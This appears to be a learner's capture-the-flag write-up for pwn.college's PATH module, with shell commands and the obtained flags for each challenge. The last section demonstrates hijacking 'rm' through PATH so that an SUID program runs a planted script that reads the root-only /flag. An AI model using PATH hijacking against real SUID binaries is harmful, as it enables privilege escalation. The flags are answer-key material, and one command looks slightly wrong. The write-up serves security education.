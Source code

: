 # Pondering PATH

Module Description: To learn about PATH and environment variables


## The PATH Variable

The challenge instructs us to disrupt the working of the `/challenge/run` file by setting the `PATH` to something else.


```
~$ PATH=""
~$ /challenge/run
```

flag: `pwn.college{QQAiBi7jAwjBrCimCQyIKzrym98.dZzNwUDL2MDO0czW}`


## setting PATH

The challenge instructs us to put the `/challenge/more_commands/` directory to the PATH so that the `/challenge/run` file can run `/challenge/more_commands/win` with it's bare name `win` to get the flag:-


```
~$ PATH=/challenge/more_commands/win
~$ /challenge/run
```

flag: `pwn.college{cx2LG9cUMndLY2tOGgwMy6CRB-v.dVzNyUDL2MDO0czW}`


## adding commands

This challenge asks us to make a script `win` to read the `/flag` file and add the file path of `win` to PATH so that it can be called by the `/challenge/run` file by it's bare name.

Unlike the previous time,  we cannot just set `PATH=/home/hacker/win` as then we will not be able to read the flag because the `cat` command won't work. So we append the path of the `win` file to PATH.

```
~$ touch win; echo "cat /flag" > win; chmod +x win
~$ export PATH="$PATH:/home/hacker/"
```

Now on running, `/challenge/run` we get the flag.

flag: `pwn.college{8jczWtkE1ualI1WjqoNfCyIFD0Y.dZzNyUDL2MDO0czW}	`

## hijacking commands

> This was hard.

> Initial approaches: trying to make a symlink to /flag, trying to edit the /run/workspace/bin/rm file 

On running, `which rm` I see `/run/workspace/bin/rm`, I can make `rm` be something else if I place a particular path before the `/run/workspace/bin` in `PATH`. That path will be `/home/hacker`

We know, the `/challenge/run` tries to execute `rm` so let's make `rm` be something else:-

```
~$ touch rm
~$ PATH="$HOME:$PATH"
```

now run, `which rm`:-

```
/home/hacker/rm
```

now we can make `rm` read the flag, `/challenge/run` file has the SUID bit so it runs as if `root` was running it. When that file tries to execute `rm` it will execute something else which will help us read the `/flag` file.

```
~$ echo "cat /flag" > rm
~$ chmod +x rm
```

now when `rm` is executed it will read the `/flag`:-

```
~$ /challenge/run

Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{EDNWyovq5R7TsYMLOH-rcr2Y9kF.ddzNyUDL2MDO0czW}
```

